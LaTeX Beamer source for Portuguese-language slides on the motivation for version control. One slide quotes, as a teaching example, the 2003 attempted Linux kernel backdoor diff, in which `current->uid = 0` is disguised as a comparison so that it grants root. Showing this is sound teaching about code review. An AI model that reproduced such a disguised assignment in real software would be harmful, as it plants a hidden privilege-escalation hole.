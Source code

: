 \documentclass[14pt]{beamer}
\begin{document}
\begin{frame}{Motivação (3/4)}
\begin{itemize}
    \item Facilitar o trabalho colaborativo
    \begin{itemize}
        \item Gerenciar o conflito entre modificações
    \end{itemize}
    \item Facilitar a modificação do código fonte
    \begin{itemize}
        \item Backup dos arquivos
        \item Modificação nos arquivos
        \item Se a modificação deu errado, restaura o backup
        \item Depois o desenvolvedor vislumbra como a modificação poderia ter
        dado certo, mas aí já é tarde        
        \end{itemize}
\end{itemize}
\end{frame}

\begin{frame}[fragile]{Exemplo de precisão da atividade}
    \href{https://lwn.net/Articles/57135/}{\textbf{Tentativa} de colocar um
    backdoor no kernel do Linux}
    \begin{mdframed}[
        backgroundcolor=black,
        hidealllines=true,
        innertopmargin=0pt,
        innerbottommargin=0pt,
        innerleftmargin=0pt,
        innerrightmargin=0pt
    ]
    \begin{lstlisting}[style=ccode]
--- GOOD        2003-11-05 13:46:44.000000000 -0800
+++ BAD 2003-11-05 13:46:53.000000000 -0800
@@ -1111,6 +1111,8 @@
                schedule();
                goto repeat;
        }
+       if ((options == (__WCLONE|__WALL)) && (current->uid = 0))
+                       retval = -EINVAL;
        retval = -ECHILD;
    end_wait4:
        current->state = TASK_RUNNING;
    \end{lstlisting}
    \end{mdframed}
\end{frame}
\end{document}
